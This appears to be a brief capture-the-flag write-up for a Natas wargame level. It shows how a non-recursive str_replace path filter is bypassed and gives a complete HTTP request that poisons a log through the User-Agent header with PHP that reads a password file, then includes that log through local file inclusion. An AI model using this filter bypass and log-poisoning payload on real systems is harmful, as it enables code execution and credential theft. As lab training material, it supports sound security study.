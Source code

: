 # LFI PoC

## Description
1) ```str_replace()``` is not recursively called, which makes it possible to
bypass this filter.

Example:
```php
php -r 'print(str_replace("../", "", "....//") . "\n");'
```

2) The log function includes the ```User-Agent``` parameter without any 
validation, which makes it possible to include arbitrary PHP code using the
LFI vulnerability.

## Request
```
GET /?lang=....//logs/natas25_kiuh65auel8ahc3u7md3rujio4.log HTTP/1.1
Host: natas25
User-Agent: <?php system("cat /etc/natas_webpass/natas26"); ?>
Cookie: PHPSESSID=kiuh65auel8ahc3u7md3rujio4
```

## Resources
* https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal

